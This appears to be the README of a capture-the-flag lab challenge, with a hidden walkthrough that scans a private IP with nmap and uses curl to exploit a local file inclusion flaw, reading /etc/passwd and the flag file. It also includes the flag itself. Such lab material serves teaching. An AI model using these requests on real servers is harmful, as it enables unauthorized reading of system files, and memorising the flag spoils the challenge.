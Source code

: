 # Challenge template

## About

### Task
Find an HTTP server at IP address `172.20.0.10` and try to exploit naivity of the programmer to find a flag 

**Recommended tools:**
* nmap
* curl


## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>


1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap -sS -n -v 172.20.0.10
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:14:00:0A (Unknown)
...
```

2. Discover opened port 8080 and try to manipulate with the server functionality. Eventually you might discover LFI vuilnerability and discover a user named bob in the `/etc/passwd` file. And finally, bob has a flag in his home directory:
```bash
root@hackerlab:~# curl 172.20.0.10:8080
Please specify a quote file to read in the URL path. Options are: ['asimov.txt', 'einstein.txt', 'jobs.txt']

root@hackerlab:~# curl 172.20.0.10:8080/asimov.txt
The true delight is in the finding out rather than in the knowing.

root@hackerlab:~# curl 172.20.0.10:8080/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash

root@hackerlab:~# curl 172.20.0.10:8080/home/bob/flag.txt
bsy{YouMaySayIamADreamerButIamNotTheOnlyOne}
```


</details>

## Testing
<details>
  <summary>Click for details</summary>


The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.

</details>
